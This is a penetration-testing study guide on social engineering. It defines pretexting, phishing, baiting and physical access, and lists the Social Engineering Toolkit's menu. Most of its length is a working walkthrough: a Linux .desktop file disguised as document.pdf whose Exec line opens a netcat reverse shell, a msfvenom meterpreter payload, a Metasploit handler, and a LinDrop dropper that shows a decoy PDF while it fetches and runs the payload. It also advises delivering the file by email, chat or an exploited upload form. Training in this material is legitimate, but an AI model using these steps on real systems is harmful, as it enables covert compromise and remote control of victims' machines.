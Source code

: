 # Network Security

## Social Engineering

### What Is It - Study Guide

(02/08) *Social Engineering* is an hacking technique in which we exploit the human factor (company employess): be helpful/fear of troubles/trust people, in order to yield information or install malware.
It is often overlooked but the ability of tricking people is very important nowdays.

### Types of Social Engineering - Study Guide

(03/10) *Pretexting*: placing a person in a realistic but fake situation (an help desk employee assisting another target employee).
(05/10) *Phishing*: utilizes fraudolent emails. Spear phishing/whaling: targets specific group of individuals/executives in an organization.
(07/10) *Baiting*: takes advantage of people curiosity using a left media.
(09/10) *Physical*: gaining access to restricted areas, often using piggybacking/shadowing.

### Tools - Study Guide

(02/15) *Social Engineering Toolkit (SET)*: is a framework designed for social engineering attacks (create phishing pages and fake mails, infect media, bind Metasploit exploits):
```
1) Spear-Phishing Attack Vectors
2) Website Attack Vectors
3) Infectious Media Generator
4) Create a Payload and Listener
5) Mass Mailer Attack
6) Arduino-Based Attack Vector
7) Wireless Access Point Attack Vector
8) QRCode Generator Attack Vector
9) Powershell Attack Vectors
10) Third Party Modules
```

#### Social Engineering Linux Targets - Video

Create a social engineering roost for targeting users of Linux systems exploiting the `.desktop` files.
To create a `.desktop` file (masqueraded as `document.pdf`) that when opened runs a reverse shell to our attacker machine:
`nano test.desktop`:
```
[Desktop Entry]
Type=Application
Name=document.pdf
Exec=/bin/nc -e /bin/sh <AttackerIP> <AttackerPort>
```
`chmod +x test.desktop`.

Now, we can perfect our attack vector changing its icon:
`locate *pdf.svg`: to choose an existent icon we need to know which is the victim OS.
`nano test.desktop`:
```
[Desktop Entry]
Type=Application
Name=document.pdf
Exec=/bin/nc -e /bin/sh <AttackerIP> <AttackerPort>
Icon=/usr/share/icons/Humanity/mimes/22/application-pdf.svg
```

In addition, we can create an enhanced attack vector using *LinDrop* tool.
`locate *.pdf`, `cp /usr/share/doc/lmodern/lm-info.pdf /root/Desktop/tools/LinDrop`: we need a real pdf to show when the `.desktop` file is launched.
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<AttackerIP> LPORT=<AttackerPort> -f elf -o /root/Desktop/tools/LinDrop/reverse_tcp_linux`: to create a reverse shell Linux payload.
`cd /root/Desktop/tools/LinDrop`, `python -m SimpleHTTPServer 80`: to run an HTTP server from the attacker machine LinDrop folder.
`msfconsole -q`, `use exploit/multi/handler`, `set PAYLOAD linux/x86/meterpreter/reverse_tcp`, `set LHOST <AttackerIP>`, `set LPORT <AttackerPort>`, `exploit -j` : to create an handler for our listener.

`python LinDrop`: here we need to set up the output filename, the remote PDF we want to show, and the remote payload we want to execute.

Now, as output we have a .zip file we need to extract, and then we can send its content (the final `.desktop` file) via email or chat software, upload it to an organization website (ideally via an exploited upload form), and so on.
This file, once opened, will show to the user the chosen PDF file, and then our malicious payload will be downloaded and executed, resulting in a reverse Meterpreter shell.

---
